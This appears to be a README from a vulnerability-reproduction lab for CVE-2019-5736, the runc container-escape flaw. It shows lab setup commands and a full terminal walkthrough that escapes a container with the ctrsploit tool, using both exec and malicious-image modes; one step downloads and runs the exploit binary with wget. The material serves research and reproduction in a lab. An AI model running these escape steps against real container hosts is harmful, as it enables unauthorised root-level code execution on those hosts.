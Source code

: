 # cve-2019-5736

* dqd:
  * ssst0n3/docker_archive:cve-2019-5736 -> ssst0n3/docker_archive:cve-2019-5736_v0.1.0
  * ssst0n3/docker_archive:cve-2019-5736_v0.1.0
* ctr:
  * ssst0n3/docker_archive:ctr_cve-2019-5736 -> ssst0n3/docker_archive:ctr_cve-2019-5736_v0.1.0
  * ssst0n3/docker_archive:ctr_cve-2019-5736_v0.1.0

## usage

```shell
$ cd vul/cve-2019-5736
$ docker compose -f docker-compose.yml -f docker-compose.kvm.yml up -d
$ ./ssh
```

### reproduce

#### exec

terminal 1

```shell
root@cve-2019-5736:~# docker run --name poc -ti ubuntu:16.04 bash
root@b54c1cd02517:/# apt update && apt install -y wget
root@b54c1cd02517:/# wget -q https://github.com/ctrsploit/ctrsploit/releases/latest/download/ctrsploit_linux_amd64 -O /usr/bin/ctrsploit
root@b54c1cd02517:/# chmod +x /usr/bin/ctrsploit
root@c4602d14a7f8:/# ctrsploit vul 5736 x exec -c 'touch /escaped'
INFO[0000] Overwritten /bin/sh successfully             
INFO[0000] Waiting the host to exec container /bin/sh ... 
```

terminal 2

```shell
root@cve-2019-5736:~# docker exec -ti poc /bin/sh
```

terminal 1

```shell
root@c4602d14a7f8:/# ctrsploit vul 5736 x exec -c 'touch /escaped'
INFO[0000] Overwritten /bin/sh successfully             
INFO[0000] Waiting the host to exec container /bin/sh ... 
INFO[0000] Found the PID: 22                            
INFO[0000] Successfully got the file handle             
INFO[0000] Successfully got write handle&{0xc00009a060} 
INFO[0000] The command executed is#!/bin/bash
touch /escaped
root@c4602d14a7f8:/# exit
-rw-r--r-- 1 root root 0 Oct 14 08:49 /escaped
```

#### image

```shell
root@cve-2019-5736:~# ctrsploit vul 5736 x image -c 'touch /escaped'
INFO[0000] exploit generated in poc-cve-2019-5736 directory, build it and push it to your registry
docker build -t poc poc-cve-2019-5736 
root@cve-2019-5736:~# docker build -t poc poc-cve-2019-5736
Sending build context to Docker daemon  6.144kB
Step 1/10 : FROM golang:1.16 AS builder
 ---> 972d8c0bc0fc
Step 2/10 : COPY overwriter.go /
 ---> 6fe005276394
Removing intermediate container bcd95d06fe39
Step 3/10 : COPY ld.go /
 ---> c96cc8d25694
Removing intermediate container deac0e0c9b4e
Step 4/10 : RUN CGO_ENABLED=0 go build -o /overwriter /overwriter.go
 ---> Running in 5527dc25ba1a
 ---> 1559134298da
Removing intermediate container 5527dc25ba1a
Step 5/10 : RUN CGO_ENABLED=0 go build -o /ld /ld.go
 ---> Running in e870f2e20af3
 ---> 07547540fe01
Removing intermediate container e870f2e20af3
Step 6/10 : FROM ubuntu:16.04
 ---> b6f507652425
Step 7/10 : COPY --from=builder /ld /lib64/ld-linux-x86-64.so.2
 ---> Using cache
 ---> e15e9f6a5e5c
Step 8/10 : COPY --from=builder /overwriter /
 ---> 3be58e5a6a06
Removing intermediate container c9ea8ad203d6
Step 9/10 : COPY payload /payload
 ---> 55529e029bf9
Removing intermediate container a0468d84af75
Step 10/10 : ENTRYPOINT /proc/self/exe
 ---> Running in bf38aaf8feaa
 ---> d8d16c4d99b9
Removing intermediate container bf38aaf8feaa
Successfully built d8d16c4d99b9
Successfully tagged poc:latest
root@cve-2019-5736:~# docker run -ti poc
ld
[+] Successfully got the file handle 3
overwriter
/proc/self/fd/3
[+] Successfully got write handle &{0xc00004a060}
[+] The command executed is 
#!/bin/bash
touch /escaped
root@cve-2019-5736:~# ls -lah /escaped 
-rw-r--r-- 1 root root 0 Oct 14 09:34 /escaped
```


### env details

```shell
root@cve-2019-5736:~# docker --version
Docker version 17.06.0-ce, build 02c1d87
root@cve-2019-5736:~# docker-runc --version
runc version 1.0.0-rc3
commit: 2d41c047c83e09a6d61d464906feb2a2f3c52aa4
spec: 1.0.0-rc5
```

## build

```shell
make all DIR=vul/cve-2019-5736
```

for developers:

```dockerfile
FROM ssst0n3/docker_archive:ctr_cve-2019-5736_v0.1.0
```
